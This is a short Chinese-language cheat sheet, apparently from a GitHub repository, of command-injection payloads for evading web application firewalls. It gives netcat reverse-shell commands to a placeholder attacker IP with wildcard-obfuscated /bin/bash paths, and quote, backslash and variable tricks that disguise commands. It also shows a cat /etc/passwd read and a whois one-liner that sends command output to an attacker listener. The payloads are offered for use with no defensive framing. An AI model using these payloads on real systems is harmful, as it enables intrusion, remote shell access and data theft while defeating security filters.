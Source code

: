 反弹shell配合通配符

```
nc -lvvp 5555  #监听
nc -e /bin/bash x.x.x.x 5555
nc -e /???/b??h x.x.x.x 5555
nc -e /???/b??h 十进制ip 5555  #kali
```

### 连接符

- '单引号

  ```
  whoami -> 'w'h'o'a'm'i
  ```

- "双引号

  ```
  whoami -> "w"h"o"a"m"i
  ```

> 单双引号要成对出现

- \反斜杠

  ```
  whoami -> \w\h\o\a\m\i
  ```

各种连接符可组合使用（单双引号成对出现）

### 未初始化的变量

```
cat$a /etc$a/passwd$a  #$a不能出现在字符中间
```

### 自定义bash变量

```
a=w;b=hoa;c=mi;$a$b$c
```

### 使用一般不被waf过滤的命令

whois带数据

```
nc -lvvp 5555  #攻击机
whois -h x.x.x.x -p 5555 `whoami`
```

### 反引号执行命令

- 命令之中执行命令

  ```
  sadfasdf`whoami`asdfasdf
  ```
